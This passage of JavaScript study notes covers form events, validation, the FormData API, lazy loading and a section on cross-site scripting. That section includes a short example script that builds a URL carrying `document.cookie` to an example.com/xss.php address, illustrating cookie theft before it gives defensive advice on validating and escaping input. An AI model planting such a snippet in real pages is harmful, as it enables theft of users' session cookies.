    });
  </script>
  ```

- **form submission**:

  - The `submit` event triggers when the form is submitted, it is usually used to validate the form before sending it to the server or to abort the submission and process it in JavaScript.

  - There are two main ways to submit a form:

    1. click on `<input type="submit">` or `<input type="image">`
    2. press **Enter** on an input field.

  > **Default behavior for form-submission:**
  >
  > - it creates a params string for the inputs in the form-body, then make a network request to the current address in the URL with these params
  >   

  - always use `e.preventDefault();` on form buttons as it defaults to refresh the page
  - try not to give a name attribute with value `"submit"` to a button as it might conflict and override with a `form.submit()` method
  - to remove focus from input field : `inputLogin.blur();`
  - **Note:** always use `e.preventDefault();` on hyperlinks `<a>` which has a `href="#"` and you want it to do something like ( show pop-up window ) as it defaults to go to top

---

### Form Validation

Modern HTML allows us to do many validations using input attributes: required, pattern and so on. And sometimes they are just what we need. JavaScript can be used when we want more flexibility. Also we could automatically send the changed value to the server if it’s correct.

#### Focusing: focus/blur

> - Focusing on an element generally means: “prepare to accept the data here”, so that’s the moment when we can run the code to initialize the required functionality.
> - The moment of losing the focus (“blur”) can be even more important. That’s when a user clicks somewhere else or presses Tab to go to the next form field, or there are other means as well.
>   - Losing the focus generally means: “the data has been entered”, so we can run the code to check it or even to save it to the server and so on.

- The `focus` event is called on focusing, and `blur` – when the element loses the focus.

  ```html
  <style>
    .invalid {
      border-color: red;
    }
    #error {
      color: red;
    }
  </style>

  Your email please:
  <input type="email" id="input" />

  <div id="error"></div>

  <script>
    input.onblur = function () {
      if (!input.value.includes('@')) {
        // not email
        input.classList.add('invalid');
        error.innerHTML = 'Please enter a correct email.';
      }
    };

    input.onfocus = function () {
      if (this.classList.contains('invalid')) {
        // remove the "error" indication, because the user wants to re-enter something
        this.classList.remove('invalid');
        error.innerHTML = '';
      }
    };
  </script>
  ```

- Methods `elem.focus()` and `elem.blur()` set/unset the focus on the element.
- **Allow focusing on any element: `tabindex`**
  - By default, many elements do not support focusing. The list varies a bit between browsers, but one thing is always correct: focus/blur support is guaranteed for elements that a visitor can interact with: `<button>,` `<input>,` `<select>,` `<a>` and so on.
  - On the other hand, elements that exist to format something, such as `<div>,` `<span>,` `<table>` – are unfocusable by default. The method `elem.focus()` doesn’t work on them, and focus/blur events are never triggered.
  - This can be changed using HTML-attribute **`tabindex`**.
  - Usually it’s used to make an element focusable, but keep the default switching order. To make an element a part of the form on par with `<input>`.
    - `tabindex="-1"` allows only programmatic focusing on an element. The Tab key ignores such elements, but method `elem.focus()` works.
  - The current focused element is available as `document.activeElement`
  - more on this here [Accessibility](../HTML-CSS/03-HTML.md#accessibility)

---

#### Events: change, input, cut, copy, paste

- Event: `change`

  - The change event triggers when the element has finished changing.
  - For text inputs that means that the event occurs when it loses focus.

- Event: `input`
  - The input event triggers **every time** after a value is modified by the user.
- Events: `cut`, `copy`, `paste`

  - They belong to `ClipboardEvent` class and provide access to the data that is cut/copied/pasted.
  - We also can use `event.preventDefault()` to **abort the action**, then nothing gets copied/pasted.

  ```html
  <input type="text" id="input" />
  <script>
    input.onpaste = function (event) {
      alert('paste: ' + event.clipboardData.getData('text/plain'));
      event.preventDefault();
    };

    input.oncut = input.oncopy = function (event) {
      alert(event.type + '-' + document.getSelection());
      event.preventDefault();
    };
  </script>
  ```

---

- Provide meaningful error messages

  - error messages are not identical in every browser. How can you show the same message to everyone?
    - To achieve this, use the `setCustomValidity()`

  ```js
  const nameInput = document.querySelector('[name="name"]');

  nameInput.addEventListener('invalid', () => {
    nameInput.setCustomValidity('Please enter your name.');
  });
  ```

### FormData API

The `FormData()` constructor creates a new `FormData` object. => [reference](https://javascript.info/formdata)

- The `FormData` interface provides a way to easily construct a set of `key/value pairs` representing form fields and their values, which can then be easily sent using the `fetch()` or `XMLHttpRequest.send()` method.
- It uses the same format a form would use if the encoding type were set to `"multipart/form-data"`.
- It's a great solution when we have bunch of inputs
  - inputs must have `name` attribute

```js
// it returns arrays of arrays
const dataArr = [...new FormData(formElement)];
// result : [[key1,value1],[key2,value2],[key3,value3],[key4,value4],...]

// get form-field
const email = formData.get('email');
// get form-entries
const formEntries = [...formData.entries()];

// now we want to convert it to an object
const data = Object.fromEntries(dataArr); // convert arrays into key-value-pairs Object
// result :
// {
//   key1 : value1,
//   key2 : value2,
//   key3 : value3,
//   key4 : value4,
// }
```

- the `FormData` object will be populated with the form's current keys/values using the name property of each element for the keys and their submitted value for the values. It will also encode file input content.

---

## CROSS-SITE SCRIPTING (XSS) ATTACKS

**XSS** involves an attacker placing malicious code into a site. Websites often feature content created by many different people.

**XSS** can give the attacker access to information in:

- The DOM (including form data)
- That website's cookies
- Session tokens: information that identifies you from other users when you log into a site
- Example:

  ```html
  <script>
    var adr = 'http : //example.com/xss .php?cookie=' + escape(document.cookie);
  </script>
  ```

### Defending against CROSS-SITE SCRIPTING

- **VALIDATE INPUT GOING TO THE SERVER**
  - Only let visitors input the kind of characters they need to when supplying information. This is known as **validation**. Do not allow untrusted users to submit HTML markup or JavaScript.
  - Double-check validation on the server before displaying user content/storing it in a database. This is important because **users could bypass validation in the browser by turning JavaScript off**.
  - The database may safely contain markup and script from trusted sources (e.g., your content management system). This is because it does not try to process the code; it just stores it.
- **ESCAPE DATA COMING FROM THE SERVER & DATABASE**
  - As your data leaves the database, all potentially dangerous characters should be escaped
  - Make sure that you are only inserting content generated by users into certain parts of the template files
  - Do not create DOM fragments containing HTML from untrusted sources. It should only be added as text once it has been escaped.

> you can safely use **innerHTML** to add markup to a page if you have written the code - but content from any untrusted sources should be escaped and added as text (not markup), using properties like **textContent**.

---

## Implementations

### Lazy loading

- is a strategy to identify resources as non-blocking (non-critical) and load these only when needed. It's a way to shorten the length of the critical rendering path, which translates into reduced page load times.
- `Steps`

  - HTML :

    ```html
    <!-- img 1 (low quality) is loaded first using the src attribute -->
    <!-- img 2 (high quality) is loaded only when the user scrolls to the img position using the data-src attribute -->
    
    ```

  - CSS

    ```css
    .lazy-img {
      filter: blur(20px);
    }
    ```

  - JS -> [Example of loading images when the user scrolls to the img position](./3-DOM.md#examples-of-using-the-intersection-observer-api)

---

### Slider (pagination)

- `pagination` comes from `multiple pages`
- see `slider` section in => [BANKIST-Home_Page-js](https://github.com/abdrahmansoltan/Practicing-Javascript/blob/34fdec9c799cb49e84c4aedeffed3ca9a4b6cbe7/3_BANKIST/Home_Page/script.js#L195)

---

## Writing Documentation

[jsdoc](https://jsdoc.app/)

- before any function(the line above it) write `/**` and vsCode will configure it
